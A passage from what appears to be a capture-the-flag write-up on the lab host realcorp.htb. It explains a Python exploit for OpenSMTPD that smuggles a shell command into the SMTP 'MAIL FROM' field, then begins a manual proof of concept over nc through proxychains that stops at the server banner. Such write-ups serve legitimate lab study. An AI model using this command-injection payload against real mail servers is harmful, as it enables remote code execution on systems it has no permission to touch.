 It sends a `HELO` response:

```

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

```

It sends the payload:

```

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

```

Then it sends the rest of the fields and exits:

```

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')

```

### POC

#### Manual

To test this, I’ll use `nc` to try to `ping` my VM from the SMTP server. I’ll start `tcpdump` listening for ICMP, and then connect to the port:

```

oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf nc 10.241.251.113 25
[proxychains] config file found: proxy-squid-x3.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
220 smtp.realcorp.htb ESMTP OpenSMTPD

```

